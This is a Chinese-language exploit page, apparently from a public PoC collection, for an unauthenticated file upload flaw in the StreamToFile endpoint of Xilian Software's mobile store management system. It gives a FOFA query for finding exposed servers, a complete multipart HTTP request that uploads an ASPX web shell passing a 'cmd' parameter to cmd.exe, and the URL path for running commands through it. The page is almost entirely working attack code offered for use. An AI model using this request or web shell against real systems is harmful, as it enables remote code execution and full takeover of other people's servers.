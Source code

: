 # 西联软件移动门店管理系统treamToFile文件上传漏洞

西联软件-移动门店管理系统 StreamToFile 接口存在文件上传漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa
```javascript
body="西联软件提供云计算服务"
```

## poc
```javascript
POST /api/UploadDB/StreamToFile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="organ"

qwert
------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="devid"

yuiop
------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="files";filename="1.aspx"
Content-Type: image/png

<%@ Page Language="Jscript" validateRequest="false" %>
<%
var c=new System.Diagnostics.ProcessStartInfo("cmd");
var e=new System.Diagnostics.Process();
var out:System.IO.StreamReader,EI:System.IO.StreamReader;
c.UseShellExecute=false;
c.RedirectStandardOutput=true;
c.RedirectStandardError=true;
e.StartInfo=c;
c.Arguments="/c " + Request.Item["cmd"];
e.Start();
out=e.StandardOutput;
EI=e.StandardError;
e.Close();
Response.Write(out.ReadToEnd() + EI.ReadToEnd());
System.IO.File.Delete(Request.PhysicalPath);
Response.End();%>
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

![image-20241227221622454](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272216534.png)

文件路径

```
/Files/DB/qwert_yuiop.aspx?cmd=dir
```

